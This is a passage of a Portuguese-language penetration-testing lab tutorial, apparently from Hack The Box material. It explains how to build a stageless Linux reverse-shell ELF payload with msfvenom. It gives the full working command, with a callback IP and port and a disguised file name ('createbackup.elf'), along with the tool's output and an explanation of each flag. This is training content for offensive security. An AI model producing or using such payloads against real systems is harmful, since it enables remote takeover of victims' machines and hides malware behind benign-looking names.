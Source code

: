 ## Construindo um payload stageless

#### Construa-o

```shell-session
casluxd@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

```shell-session
msfvenom
```

#### Criando uma carga útil

```shell-session
-p 
```

Este `option` indica que msfvenom está criando uma carga útil.

#### Escolhendo a carga útil com base na arquitetura

```shell-session
linux/x64/shell_reverse_tcp 
```

Especifica um `Linux` `64-bit` carga útil sem stage que iniciará um shell reverso baseado em TCP (`shell_reverse_tcp`).

#### Endereço para conectar novamente

```shell-session
LHOST=10.10.14.113 LPORT=443 
```

Quando executada, a carga útil retornará ao endereço IP especificado (`10.10.14.113`) na porta especificada (`443`).

#### Formato para gerar carga útil em

```shell-session
-f elf 
```

O sinalizador `-f` especifica o formato em que o binário gerado estará. Nesse caso, será um [.arquivo .elf](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

#### Saída

```shell-session
> createbackup.elf
```
